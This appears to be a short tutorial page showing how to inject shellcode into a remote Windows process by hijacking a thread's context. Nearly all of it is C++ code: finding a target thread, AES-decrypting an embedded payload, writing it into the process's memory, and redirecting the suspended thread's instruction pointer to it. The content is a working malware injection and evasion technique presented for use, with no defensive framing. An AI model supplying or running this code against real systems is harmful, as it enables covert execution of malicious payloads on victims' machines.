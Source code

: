 We can inject code to a remote process using `Thread Context`

1. First we find the thread on a remote process
2. Then we allocate our shellcode into the remote thread
3. Suspend the remote thread
4. Change the context of the remote thread (change instruction pointer) to execute next the shellcode
5. Finally we resume the thread

First we define the `FindThread` Function:
```cpp
HANDLE FindThread(int pid){
  
    HANDLE hThread = NULL;
    THREADENTRY32 thEntry;
  
    thEntry.dwSize = sizeof(thEntry);
    HANDLE Snap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    while (Thread32Next(Snap, &thEntry)) {
        if (thEntry.th32OwnerProcessID == pid)  {
            hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thEntry.th32ThreadID);
            break;
        }
    }
    
    CloseHandle(Snap);
    return hThread;
}
```

Now we use it in `InjectCTX` function:
```cpp
int InjectCTX(int pid, HANDLE hProc, unsigned char * payload, unsigned int payload_len) {
  
    HANDLE hThread = NULL;
    LPVOID pRemoteCode = NULL;
    CONTEXT ctx;
  
    // find a thread in target process
    hThread = FindThread(pid);
    if (hThread == NULL) {
        printf("Error, hijack unsuccessful.\n");
        return -1;
    }
  
    // Decrypt payload
    AESDecrypt((char *) payload, payload_len, (char *) key, sizeof(key));
    // perform payload injection
    pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    WriteProcessMemory(hProc, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) NULL);
  
    // execute the payload by hijacking a thread in target process
    SuspendThread(hThread);
    ctx.ContextFlags = CONTEXT_FULL;
    GetThreadContext(hThread, &ctx);
#ifdef _M_IX86
    ctx.Eip = (DWORD_PTR) pRemoteCode;
#else
    ctx.Rip = (DWORD_PTR) pRemoteCode;
#endif
    SetThreadContext(hThread, &ctx);
    return ResumeThread(hThread);  
}